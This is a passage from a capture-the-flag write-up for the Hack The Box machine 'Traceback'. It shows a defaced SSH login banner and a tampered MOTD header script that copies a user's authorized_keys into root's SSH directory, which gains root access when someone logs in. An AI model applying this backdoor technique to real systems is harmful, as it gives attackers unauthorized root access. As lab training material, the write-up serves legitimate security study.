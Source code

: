 When we relogin in new terminal with webadmin we see the following message

```bash
ssh -i webadmin webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land


Hacked by Strawhack


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Aug 13 18:12:50 2020 from 10.10.17.246

```

Copying the authorized_keys from webadmin to root

```bash
sysadmin@traceback:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cp /home/webadmin/.ssh/authorized_keys /root/.ssh/
```

